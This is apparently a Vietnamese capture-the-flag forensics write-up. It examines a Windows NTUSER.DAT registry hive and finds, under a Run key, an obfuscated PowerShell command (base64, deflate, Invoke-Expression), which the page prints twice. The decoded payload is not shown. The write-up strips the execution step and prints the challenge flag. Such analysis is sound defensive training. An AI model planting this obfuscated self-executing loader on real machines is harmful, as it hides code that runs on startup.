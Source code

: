 ## Đề 
> Hòa thấy hiện tượng lạ mỗi khi anh ta khởi động máy tính. Anh ta nghĩ rằng việc tải các video không lành mạnh gần đây đã khiến máy tính của anh ta bị hack.
## Link downloads
> https://drive.google.com/file/d/1pShye_YtnUuIObPdnq9PeiIge0Oelsix/view?usp=drive_link (pass: cookiehanhoan)
## Giải 
### Cách 1
- Sau khi tải về em được 1 file tên `NTUSER.DAT`, kiểm tra loại file em thu được kết quả
```text
NTUSER.DAT: MS Windows registry file, NT/2000 or above
```
- Em sẽ mở file registry với công cụ `registry explorer` của windows
- ![image](image/1.PNG)
- Vì tiêu đề là máy tính của HOà bị hack vì tải phần mềm crack nên ắt hẳn nó phải liên quan đến process cmd.exe và powershell.exe. Em lần lượt search 2 chuỗi này
- Tại powershell.exe em thấy được 1 đoạn shell như sau : 
- ![image](image/2.PNG)
- ![image](image/3.PNG)
> "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" "(neW-obJEct io.COMprEssIon.dEFlATesTReAm( [sySTem.IO.memorYSTREam] [coNVeRT]::FRoMBAse64stRInG( 'TVFva4JAGP8qh7hxx/IwzbaSBZtsKwiLGexFhJg+pMs09AmL6rvP03S9uoe739/nZD+OIEHySmwolNn6F3wkzilH2HEbkDupvwXM+cKaWxWSSt2Bxrv9F64ZOteepU5vYOjMlHPMwNuVQnItyb8AneqOMnO5PiEsVytZnHkJUjnvG4ZuXB7O6tUswigGSuVI0Gsh/g1eQGt8h6gdUo98CskGQ8aIkgBR2dmUAw+9kkfvCiiL0x5sbwdNlQUckb851mTykfhpECUbdstXjo2LMIlEE0iCtedvhWgER1I7aKPHLrmQ2QGVmkbuoFoVvOE9Eckaj8+26vbcTeomqptjL3OLUM/0q1Q+030RMD73MBTYEZFuSmUMYbpEERduSVfDYZW8SvwuktJ/33bx/CeLEGirU7Zp52ZpLfYzPuQhZVez+SsrTnOg7A8='), [SYSTEM.iO.ComPReSSion.CoMPrEsSIonmODe]::DeCOmpresS)|FOREAcH-object{ neW-obJEct io.streAMrEadeR( $_,[sysTem.TExt.EnCoDING]::asCIi )}).reaDToEnD()|inVOKe-exprEsSIon"
- Ở đây nó sẽ mã hoá dòng trong dấu nháy, khi tiến hành thực thi nó sẽ giải mã ra 
- Bây giờ em sẽ gán đoạn thực thi đó cho 1 biến a
- ![image](image/4.PNG)
- Sau đó in ra 
- ![image](image/5.PNG)
> Flag : `CHH{N0_4_go_n0_st4r_wh3r3}`
### Cách 2
- Vì trong thực tế không thể tìm kiếm bằng cách tìm cmd.exe hay powershell.exe nên em sẽ làm 1 cách khác 
- Tương tự như cách 1, vì đây là file registry nên em mở nó bằng `registry explorer` 
- Dựa theo kiến thức đã học ở lab `https://tryhackme.com/room/windowsforensics1` em sẽ tìm kiếm theo phương pháp thủ công 
- Vì đề bài có gợi ý là máy tính của Hoà bị hack nên đầu tiên em phải xác định các file được thực thi trước tại `\Software\Microsoft\Windows\Currentversion\count` 
- ![image](image/6.PNG)
- Ở đây có cmd.exe và powershell.exe đang chạy 
- Lướt xuống 1 tí tại \run em thấy powershell đang thực hiện 1 lệnh
``` 
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" "(neW-obJEct io.COMprEssIon.dEFlATesTReAm( [sySTem.IO.memorYSTREam] [coNVeRT]::FRoMBAse64stRInG( 'TVFva4JAGP8qh7hxx/IwzbaSBZtsKwiLGexFhJg+pMs09AmL6rvP03S9uoe739/nZD+OIEHySmwolNn6F3wkzilH2HEbkDupvwXM+cKaWxWSSt2Bxrv9F64ZOteepU5vYOjMlHPMwNuVQnItyb8AneqOMnO5PiEsVytZnHkJUjnvG4ZuXB7O6tUswigGSuVI0Gsh/g1eQGt8h6gdUo98CskGQ8aIkgBR2dmUAw+9kkfvCiiL0x5sbwdNlQUckb851mTykfhpECUbdstXjo2LMIlEE0iCtedvhWgER1I7aKPHLrmQ2QGVmkbuoFoVvOE9Eckaj8+26vbcTeomqptjL3OLUM/0q1Q+030RMD73MBTYEZFuSmUMYbpEERduSVfDYZW8SvwuktJ/33bx/CeLEGirU7Zp52ZpLfYzPuQhZVez+SsrTnOg7A8='), [SYSTEM.iO.ComPReSSion.CoMPrEsSIonmODe]::DeCOmpresS)|FOREAcH-object{ neW-obJEct io.streAMrEadeR( $_,[sysTem.TExt.EnCoDING]::asCIi )}).reaDToEnD()|inVOKe-exprEsSIon"
```
- Lệnh này sẽ tiến hành mã hoá các kí tự trong dấu nháy, sau đó tiến hành giải mã bằng lệnh thực thi `inVOKe-exprEsSIon`
- Em sẽ xoá lệnh thực thi và gán dữ liệu cho 1 biến (mục đích để in ra dữ liệu lúc sau)
- ![image](image/4.PNG)
- ![image](image/5.PNG)
> Flag : `CHH{N0_4_go_n0_st4r_wh3r3}`